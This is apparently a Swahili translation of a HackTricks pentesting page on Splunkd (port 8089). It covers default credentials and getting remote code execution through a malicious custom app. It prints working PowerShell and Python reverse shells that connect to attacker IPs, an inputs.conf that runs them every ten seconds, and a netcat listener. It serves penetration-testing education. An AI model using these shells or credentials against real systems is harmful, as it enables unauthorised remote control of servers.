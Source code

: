 # 8089 - Kupima Usalama wa Splunkd

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako inatangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## **Taarifa Msingi**

Splunk ni **zana ya uchambuzi wa magogo** ambayo inacheza jukumu muhimu katika **ukusanyaji, uchambuzi, na uchoraji wa data**. Ingawa madhumuni yake ya awali hayakuwa kuwa zana ya **SIEM (Usimamizi wa Habari na Matukio ya Usalama)**, imepata umaarufu katika uwanja wa **uchunguzi wa usalama** na **uchambuzi wa biashara**.

Matumizi ya Splunk mara nyingi hutumiwa kuhifadhi **data nyeti** na inaweza kutumika kama **chanzo muhimu cha habari** kwa wadukuzi ikiwa wanafanikiwa kudukua mfumo.
**Bandari ya chaguo-msingi:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
**Seva ya wavuti ya Splunk inaendesha kwa chaguo-msingi kwenye bandari 8000**.
{% endhint %}

## Uchunguzi

### Toleo la Bure

Jaribio la Splunk Enterprise linabadilika kuwa **toleo la bure baada ya siku 60**, ambalo **halihitaji uwakilishi**. Si jambo la kawaida kwa wasimamizi wa mfumo kufunga jaribio la Splunk ili kuitumia, ambalo **baadaye husahauliwa**. Hii itabadilika moja kwa moja kuwa toleo la bure ambalo halina aina yoyote ya uwakilishi, ikileta pengo la usalama katika mazingira. Baadhi ya taasisi zinaweza kuchagua toleo la bure kutokana na mipaka ya bajeti, bila kuelewa kabisa athari za kutokuwa na usimamizi wa mtumiaji/jukumu.

### Uthibitisho wa Cheti cha Msingi

Kwenye toleo za zamani za Splunk, uthibitisho wa cheti cha msingi ni **`admin:changeme`**, ambazo zinaonyeshwa kwa urahisi kwenye ukurasa wa kuingia.\
Hata hivyo, **toleo jipya zaidi la Splunk** linaweka **uthibitisho** **wakati wa mchakato wa usakinishaji**. Ikiwa uthibitisho wa cheti cha msingi hautafanyi kazi, ni vyema kuangalia nywila dhaifu za kawaida kama vile `admin`, `Karibu`, `Karibu1`, `Nenosiri123`, n.k.

### Kupata Taarifa

Baada ya kuingia kwenye Splunk, tunaweza **kuvinjari data**, kukimbia **ripoti**, kuunda **dashibodi**, **kusakinisha programu** kutoka maktaba ya Splunkbase, na kusakinisha programu za desturi.\
Pia unaweza kukimbia nambari: Splunk ina njia nyingi za **kuendesha nambari**, kama vile programu za Django upande wa seva, vituo vya REST, pembejeo zilizoandikwa, na hati za tahadhari. Njia ya kawaida ya kupata utekelezaji wa nambari kijijini kwenye seva ya Splunk ni kupitia matumizi ya pembejeo iliyosakinishwa.

Zaidi ya hayo, kwa kuwa Splunk inaweza kusakinishwa kwenye mwenyeji wa Windows au Linux, pembejeo zilizoandikwa zinaweza kuundwa ili kukimbia Bash, PowerShell, au hati za Batch.

### Shodan

* `Kujenga Splunk`

## Utekelezaji wa Nambari Kijijini (RCE)

### Kuunda Programu ya Desturi

Programu ya desturi inaweza kukimbia **hati za Python, Batch, Bash, au PowerShell**.\
Tafadhali kumbuka kwamba **Splunk inakuja na Python iliyosakinishwa**, hivyo hata kwenye mifumo ya **Windows** utaweza kukimbia nambari ya python.

Unaweza kutumia [**hii**](https://github.com/0xjpuff/reverse\_shell\_splunk) pakiti ya Splunk ili kutusaidia. **`bin`** directory katika repo hii ina mifano kwa [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) na [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Hebu tuende hatua kwa hatua.

Ili kufanikisha hili, kwanza tunahitaji kuunda programu ya desturi ya Splunk kwa kutumia muundo wa saraka ifuatayo:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
**`bin`** directory itakuwa na **scripts ambazo tunakusudia kuendesha** (katika kesi hii, **PowerShell** reverse shell), na saraka ya chaguo-msingi itakuwa na faili yetu ya `inputs.conf`. Reverse shell yetu itakuwa **PowerShell one-liner:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
Faili ya [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) inaambia Splunk **ambayo script ya kukimbia** na hali nyingine yoyote. Hapa tunaweka programu kama iliyoruhusiwa na kumwambia Splunk kukimbia script kila sekunde 10. Kipindi kawaida ni sekunde, na kuingiza (script) itakimbia tu ikiwa mipangilio hii ipo.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
Tunahitaji faili ya `.bat`, ambayo itaendeshwa wakati programu inapowekwa na kutekeleza amri ya PowerShell moja.

Hatua inayofuata ni kuchagua `Install app from file` na kupakia programu.

<figure><img src="../.gitbook/assets/image (4) (5) (1).png" alt=""><figcaption></figcaption></figure>

Kabla ya kupakia programu mbaya ya desturi, hebu tuanze kusikiliza kwa kutumia Netcat au [socat](https://linux.die.net/man/1/socat).
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
Kwenye ukurasa wa `Upload app`, bonyeza kwenye kivinjari, chagua tarball tuliyounda mapema na bonyeza `Upload`. Mara tu tunapopakia programu, tunapokea **reverse shell** na hali ya programu itabadilishwa moja kwa moja kuwa `Enabled`.

#### Linux

Ikiwa tunashughulika na **mwenyeji wa Linux**, tunahitaji **hariri skripti ya Python ya `rev.py`** kabla ya kuunda tarball na kupakia programu mbaya ya desturi. Mchakato mwingine utakuwa sawa, na tutapata uhusiano wa reverse shell kwenye msikilizaji wetu wa Netcat na kuendelea na shughuli.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Upanuzi wa Mamlaka

Katika ukurasa ufuatao unaweza kupata maelezo jinsi huduma hii inaweza kutumiwa kwa kusudi la upanuzi wa mamlaka na kupata uthabiti:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Marejeo

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako inatangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
